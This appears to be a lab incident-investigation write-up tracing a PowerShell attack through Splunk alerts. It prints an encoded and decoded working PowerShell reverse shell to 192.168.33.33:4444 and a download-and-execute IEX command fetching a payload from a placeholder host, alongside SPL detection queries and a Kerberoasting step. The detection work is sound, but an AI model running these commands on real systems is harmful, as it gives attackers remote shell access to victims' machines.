



# Attack Timeline and Investigation

## Initial Detection

Incident was identified through a preconfigured Splunk alert detecting malicious PowerShell activity.

## 1. Initial Access and C2 Establishment (21:53 - 22:03)
 - Action: Attacker executes malicious PowerShell command that downloads malicious script, and then they execute another PowerShell script that establishes reverse shell connection.
 - Evidence: Two "Malicious PowerShell Command Detected" alerts triggered.



 - Full Commands:


Reverse shell connection command:
 ```
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -ExecutionPolicy Bypass -EncodedCommand JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADMAMwAuADMAMwAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```
this command after decoding looks like this:
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.33.33",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Malicious script Download command:
```
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://nonexistentlinknotmaliciousatall.local/payload.ps1')"
```
SPL used in alert and for searching for these commands:
```
index="wineventlog" source="*Sysmon/Operational" EventCode=1 
(Image="*\\powershell.exe" OR Image="*\\pwsh.exe" OR Image="*\\powershell_ise.exe") 
| where match(CommandLine, "(?i)(-enc|base64|IEX|DownloadString|WebClient|Invoke-Shellcode|BitTransfer)") 
| table _time, host, User, CommandLine 
| sort -_time
```
## 2. Post-Exploitation Discovery (22:03 - 22:42)
 - Action: Attacker ran discovery command to identify user, and groups
 - Evidence: Alert for "Discovery Commands Detection" triggered.


SPL used in alert:
```
index="wineventlog" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1
| search CommandLine="*whoami*" OR CommandLine="*net user*" OR CommandLine="*ipconfig*" OR CommandLine="*systeminfo*" OR CommandLine="*net group*"
| table _time, host, User, Image, CommandLine, ParentImage
```
## 3.Credential Access: Kerberoasting (22:48)
 - Action: Attacker attempted to harvest service account credentials via Kerberoasting.
 - Evidence: Alert for "Suspicious Kerberos RC4 Ticket Request" triggered.
 
 
SPL used in alert:
```
index="wineventlog" EventCode=4769 TicketOptions="0x40810000" TicketEncryptionType="0x17"
| xmlkv
| table _time, host, TargetUserName, ServiceName, IpAddress, TicketEncryptionType
```
